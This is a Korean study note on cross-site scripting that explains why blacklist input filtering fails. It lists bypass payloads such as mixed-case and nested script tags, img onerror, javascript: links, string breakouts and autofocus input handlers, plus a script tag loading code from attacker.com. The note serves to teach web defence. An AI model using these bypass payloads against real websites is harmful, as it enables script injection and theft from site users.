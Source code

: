 # XSS 대응 방안(오답)

### 필터링&#x20;

: 사용자의 입력을 제한&#x20;

블랙 리스트 기반 필터링  = 특정 단어를 못들어오게 하는 것.&#x20;

🎈우회가 될 가능성이 존재한다.



### script 사이에 길이를 제한하면되지 않을까? (100\~200글자로 제한)

```javascript
<script> ~~~ </script>
```

다음과 같이 타 서버에서 가져올 수 있음.

```javascript
<script src="http://attacker.com/a.js"></script>
```



### script 단어 치환

```javascript
<ScRipT> </ScRipT>
```

대소문자 혼용으로 우회



### < script > -> <> 이렇게만 온다면

```javascript
< scrscriptipt > -> < script > 
```

이런 식으로 해결



### script -> xript&#x20;

```javascript
<img src=x onerror = "alert(1)">
```

script 라는 글자를 아예 사용하지 않는다.&#x20;

&#x20; 1\. <mark style="background-color:orange;">image Tag 활용</mark> : 거의 안 막는다.&#x20;

&#x20; 2\. Event Handler 활용 onload, onclick, onmouseover...&#x20;

&#x20; 3\. herf 활용 TEST 주소창에서 바로 js 실행 가능함.

```javascript
<a href="javascript:alert(1)">TEST</a>
```

&#x20;   위 앵커 태그에 스크립트 삽입 가능함. 링크 눌렀을 때, 페이지 이동 되는데 브라우저에서 javascript:alert(1)로 이동하면 alert가 뜬다.



### Javascript 내에서 XSS를 바로 사용가능한 케이스

&#x20;<, > 꺽쇠를 굳이 사용할 필요도 없음.

이미 javascript 안이라면 바로 다음과 같이 작성하면 됨.

```javascript
<script
  var data ="입력 가능한 곳";
</script>

이 상황이라고 가정할 때,
 
";alert(1);var a = "
을 작성하면 다음과 같이 완성된다.

<script
  var data ="";
  alert(1);
  var a = "";
</script>

우리가 원하는 스크립트를 alert(1);
```



### input XSS&#x20;

```javascript
<input type="text" value="실제 우리 데이터가 여기에 들어가는 경우가 많음." >
```

1\.  마우스 오버 시 실행&#x20;

```javascript
<input type="text" onmouseover="alert(1)">
```

2\.  클릭할 때 실행&#x20;

```javascript
<input type="text" onfocus="alert(1)">
```

3\.  자동 실행 -> <mark style="background-color:orange;">페이지가 로드되자 마자 alert 실행됨.</mark>

```javascript
<input type="text" autofocus onfocus="alert(1)">
```





이 밖에 <mark style="background-color:blue;">XSS bypass Cheat sheets</mark> 로 검색하면 다양한 방식들이 있다.

따라서 블랙 리스트 기반 필터링은 한계가 있다.





